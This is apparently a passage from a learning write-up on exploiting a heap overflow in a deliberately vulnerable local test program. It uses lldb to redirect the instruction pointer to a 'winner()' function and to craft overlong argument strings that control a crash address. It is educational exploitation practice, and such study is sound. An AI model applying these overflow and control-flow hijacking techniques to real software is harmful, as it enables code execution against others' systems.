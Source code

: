 ```
140734727913156

(lldb) po (char *) $rip
"UH\xffffff89\xffffffe5H\xffffff81\xffffffec\xffffffd0"
```
That didn't help.  But it looked like a `pointer`.  Made sense.  An Instruction Pointer.  That means....
```
(lldb) image lookup --address 140734727913156
      Address: libsystem_c.dylib[0x0000000000040ec4] (libsystem_c.dylib.__TEXT.__text + 262848)
      Summary: libsystem_c.dylib`printf
```
Now to complete the puzzle.
```
(lldb) image lookup -rn winner
(lldb) register write $rip 0x0000000100000e40
(lldb) continue

and we have a winner @ 1565097438
```
#### Back to the Heap Overflow
We wanted to manipulate the normal `Code Path`.  Instead of calling `printf()` I wanted to call the `winner()` function.  How do achieve that with a crafted `Heap` overflow?  We start by entering a `String` that is much longer than the allocated size (`i2->name = malloc(8);`).

You can do that at the command prompt or with your debugger.
```
(lldb) settings set target.run-args "AAAABBBBCCCCDDDDEEEEFFFGGGG" "0000111122223333444455556666"`

Note -> There is definitely a caching feature on lldb I can't figure out.  
You have to run app from with lldb twice, to get the expected crash.
```
Now when you hit the crash, look at the `address` line.
```
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x100474747)

(lldb) register read $rdi
     rdi = 0x0000000100474747
```
Notice I made an error.  I was missing an "F" and also had an erroneous 1 in my sequence of number characters.
```
settings set target.run-args "AAAABBBBCCCCDDDDEEEEFFFFGGGG" "0000111122223333444455556666"

* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x47474747)
```
##### Compiler optimizations - what is happening?
Ok, things are looking good.  I know which characters to manipulate.  But something strange is happening.  Why am I getting a crash in `memove`?  If you `backtrace` the crash it looks like the `Compiler` (named `Clang`) has purposely diverted all `strcpy` calls to `memmove'.


  [295b9bea]: https://www.youtube.com/watch?v=TfJrU95q1J4&t=339s "video"
  [0]: "AAAA"
  [0]: "AAAABBBBCCCCDDDDEEEEFFFFP"
  [1]: "0"